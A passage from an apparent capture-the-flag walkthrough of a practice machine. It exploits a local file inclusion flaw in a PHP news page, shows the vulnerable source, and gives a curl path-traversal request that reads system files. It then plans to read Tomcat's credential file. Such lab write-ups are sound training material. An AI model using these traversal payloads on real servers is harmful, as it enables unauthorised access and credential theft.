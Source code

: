 ```
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

We can also read the source code of this page:
http://megahosting.htb/news.php?file=../news.php

```php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

Let's try to access the tomcat manager of the Tomcat server on prot 8080:
http://10.10.10.194:8080/manager/html

No luck with default credentials, but since we have a LFI we may try to read
the configuration file.

Let's check on which OS we are before.

```
$ curl 'http://megahosting.htb/news.php?file=../../../../../../../etc/os-release'
NAME="Ubuntu"
VERSION="20.04 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

If we search the tomcat package for Ubuntu focal (20.04) we find it's in
[version 9](https://packages.ubuntu.com/search?keywords=tomcat&searchon=names&suite=focal&section=all).

PS: http://megahosting.htb:8080/ also discloses the tomcat version.

The config file storing the manager credentials is
`$CATALINA_HOME/conf/tomcat-users.xml`.

On Ubuntu `$CATALINA_HOME` = `/usr/share/tomcat{x}` where `{x}` is the version
of tomcat eg. 7, 8, 9, etc. Also the config folder is `/etc/tomcat{x}`.

But `/etc/tomcat{x}` may be for older versions only.
